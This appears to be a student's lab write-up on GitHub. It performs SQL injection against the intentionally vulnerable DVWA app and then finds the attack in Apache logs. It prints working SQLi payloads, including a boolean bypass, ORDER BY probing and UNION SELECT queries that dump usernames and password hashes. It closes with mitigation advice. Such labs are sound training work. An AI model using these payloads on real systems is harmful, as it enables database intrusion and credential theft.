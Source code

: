 # Assisted Lab: Performing and Detecting SQL Injection (SQLi)

## Overview

In this assisted cybersecurity lab, I performed and analyzed a SQL Injection (SQLi) attack using the Damn Vulnerable Web Application (DVWA) hosted on a LAMP stack. The goal was to simulate a real-world exploitation scenario and then investigate the Indicators of Compromise (IoCs) via server logs.

The lab aligns with the following **CompTIA CySA+ objectives**:

- 1.1: System and network architecture in security ops
- 1.2: Indicators of potentially malicious activity
- 1.3: Tools and techniques to identify malicious activity
- 1.4: Threat intelligence and threat-hunting concepts
- 2.4: Controls to mitigate attacks and vulnerabilities
- 3.2: Incident response activities
- 3.5: Attack methodology frameworks

---

## Environment

- **Attacker VM:** Kali Linux
- **Target VM:** Ubuntu Server (LAMP stack) running DVWA
- **Target URL:** `dvwa.structureality.com`
- **Accessed Via:** Firefox browser

---

## SQLi Attack Walkthrough

### Step 1: Verifying DVWA Access

- Navigated to `http://dvwa.structureality.com` and logged in as `admin` / `password`.
- Ensured security level was set to **Low**.

![DWA ](images/dwa_screen.jpg)

---

### Step 2: Initial Probing

- Navigated to `SQL Injection` page
- Submitted the following inputs:
  - `1` → Confirmed User ID exists
  - `7` → No user found
  - `'` → Returned SQL syntax error (unfiltered input)

![Error message](images/dwa_error.jpg)

Error message for invalid single quote input

---

### Step 3: Boolean-Based SQLi

```sql
1' or '1'='1
```

- Bypassed the input filter and revealed multiple users

![Output showing multiple users](images/dwa_user.jpg)

### Step 4: Determine Number of Columns

Tried ORDER BY queries:

```sql
' ORDER BY 1#
' ORDER BY 2#
' ORDER BY 3#
```

- Error returned at ORDER BY 3# → Indicates 2 columns

---

### Step 5: DBMS and Table Discovery

```sql
' UNION SELECT @@version, NULL#
```

- Output: MySQL version 8.0.31

```sql
' UNION SELECT table_schema, table_name FROM information_schema.tables#
```

- Identified dvwa as the active schema

![Output with schema and table names ](images/dwa_schema_tableNames.jpg)

Output with schema and table names listed

### Step 6: Column Enumeration

```sql
' UNION SELECT table_name, column_name FROM information_schema.columns#
```

- Isolated 8 relevant columns from the users table:

  - user_id, user, password, first_name, last_name, avatar, last_login, failed_login

---

### Step 7: Data Extraction

```sql
' UNION SELECT user, password FROM users#
```

- Retrieved usernames and password hashes

```sql
' UNION SELECT CONCAT(user, ' ', avatar), password FROM users#
```

- Combined fields for a clearer view

```sql
' UNION SELECT CONCAT('\n u: ', user, '\n a: ', avatar, '\n fn: ', first_name, '\n ln: ', last_name, '\n ll: ', last_login, '\n fl: ', failed_login, '\n id: ', user_id, '\n hash: ', password), NULL FROM users#
```

- Full user data with structured output

![Full user data with structured output ](images/dwa_structuredOutput.jpg)
Output of structured user data with full SQL injection

## Log Analysis

### Step 1: Access Apache Logs

Commands:

```bash
cd /var/log/apache2
less access.log
```

- Located HTTP requests showing:
  - UserID 1 and 7
  - SQLi attempt with '
  - Encoded payloads like 1%27%20or%20%271%27%3D%271

![access log entries ](images/lamp_log.jpg)
Terminal showing access log entries with SQLi patterns

## Key Takeaways:

- Error-based SQLi reveals DBMS and structure
- Union-based SQLi facilitates data extraction
- Log files are critical for identifying attack footprints

## Recommendations

- Sanitize all input fields to block metacharacters like '
- Use parameterized queries (prepared statements)
- Regularly monitor and analyze server logs
- Restrict DBMS error messages in production

## Conclusion

This lab demonstrated a full cycle of a SQL Injection attack:

- Initial discovery
- Exploitation through SQL injection
- Structured data extraction
- Investigation via web server logs
